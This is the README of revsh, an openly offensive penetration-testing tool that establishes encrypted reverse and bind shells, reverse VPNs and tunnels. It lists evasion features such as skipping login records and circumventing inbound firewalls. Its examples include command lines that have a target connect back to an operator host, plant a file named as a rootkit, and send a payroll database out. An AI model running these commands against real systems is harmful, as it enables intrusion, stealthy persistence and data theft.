 # revsh #

_revsh_ is a tool for establishing [reverse shells](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support, reverse [VPNs](https://en.wikipedia.org/wiki/Virtual_private_network) for [advanced pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting), as well as arbitrary data tunneling.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "reverse VPN"?**

_revsh_ is capable of attaching a virtual ethernet card (tun/tap) to both ends of its crypto tunnel. These cards can then be used to forward raw IP packets or ethernet frames. When combined with an Iptables NAT rule, or bridging a real ethernet card, this allows for the operator to receive a fully routable IP address on the target machines network. This, essentially, is a full VPN that has performed a connect-back call to the operator to circumvent in-bound packet filtering and grant the operator full network access.

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. vi)
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.
 * Proxy support: point-to-point, SOCKS 4, SOCKS 4a, and SOCKS 5. Proxys are available in both directions for complete flexibility.
 * TUN / TAP support for forwarding raw IP packets / Ethernet frames.
 * Escape sequence commands to kill non-responsive nodes, or print connection statistics.


_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~75k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	Control:	revsh -c [CONTROL_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	Target:		revsh     [TARGET_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	
	CONTROL_OPTIONS:
	  -c           Run in "command and control" mode.             (Default is target mode.)
	  -a           Enable Anonymous Diffie-Hellman mode.          (Default is Ephemeral Diffie-Hellman.)
	  -d KEYS_DIR  Reference the keys in an alternate directory.  (Default is "~/.revsh/keys/".)
	  -f RC_FILE   Reference an alternate rc file.                (Default is "~/.revsh/rc".)
	  -s SHELL     Invoke SHELL as the remote shell.              (Default is "/bin/bash".)
	  -F LOG_FILE  Log general use and errors to LOG_FILE.        (No default set.)
	
	TARGET_OPTIONS:
	  -t SEC       Set the connection timeout to SEC seconds.     (Default is "3600".)
	  -r SEC1,SEC2 Set the retry time to be SEC1 seconds, or      (Default is "600,1200".)
	               to be random in the range from SEC1 to SEC2.
	
	MUTUAL_OPTIONS:
	  -k           Run in keep-alive mode. Node will neither
	               exit normally, nor seppuku from timeout.
	  -L [LHOST:]LPORT:RHOST:RPORT
	               Static socket forwarding with a local
	               listener at LHOST:LPORT forwarding to
	               RHOST:RPORT.
	  -R [RHOST:]RPORT:LHOST:LPORT
	               Static socket forwarding with a remote
	               listener at RHOST:RPORT forwarding to
	               LHOST:LPORT.
	  -D [LHOST:]LPORT
	               Dynamic socket forwarding with a local
	               listener at LHOST:LPORT.                       (Socks 4, 4a, and 5. TCP connect only.)
	  -B [RHOST:]RPORT
	               Dynamic socket forwarding with a remote
	               listener at LHOST:LPORT.                       (Socks 4, 4a, and 5. TCP connect only.)
	  -x           Disable automatic setup of proxies.            (Defaults: Proxy D2280 and tun/tap devices.)
	  -b           Start in bind shell mode.                      (Default is reverse shell mode.)
	               The -b flag must be invoked on both ends.
	  -n           Non-interactive netcat style data broker.      (Default is interactive w/remote tty.)
	               No tty. Useful for copying files.
	  -v           Verbose. -vv and -vvv increase verbosity.
	  -h           Print this help.
	  -e           Print out some usage examples.
	
	  ADDRESS      The address of the control listener.           (Default is "0.0.0.0".)
	  PORT         The port of the control listener.              (Default is "2200".)


## Installation ##

	sudo apt-get install openssl libssl-dev     # Pre-req for building.
	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	revsh -h

## Compatability Note! ##

_revsh_ was developed with OpenSSL 1.0.2. Kali linux now ships with OpenSSL 1.1.0. There are notable changes to the API. Currently _revsh_ will not build with OpenSSL 1.1.0. (See Issue \#10.) This is being worked on, but no timeline set for a fix. I may take the opportunity to move away from OpenSSL entirely. Sorry for the inconvienience.  

## Examples ##

Control host example IP: 192.168.0.42
<br>
Target host example IP:  192.168.0.66

	Interactive example on default port '2200':
		control:	revsh -c
		target:		revsh 192.168.0.42
	
	Interactive example on non-standard port '443':
		control:	revsh -c 192.168.0.42:443
		target:		revsh 192.168.0.42:443
	
	Bindshell example:
		target:		revsh -b
		control:	revsh -c -b 192.168.0.66
	
	Non-interactive file upload example:
		control:	cat ~/bin/rootkit | revsh -c -n
		target:		revsh 192.168.0.42 > ./totally_not_a_rootkit
	
	Non-interactive file download example:
		control:	revsh -c -n >payroll_db.tar
		target:		cat payroll_db.tar | revsh 192.168.0.42
	
	Non-interactive file download example across existing tunnel:
		control:	revsh -c -n 127.0.0.1:2291 >payroll_db.tar
		target:		cat payroll_db.tar | revsh 127.0.0.1:2290

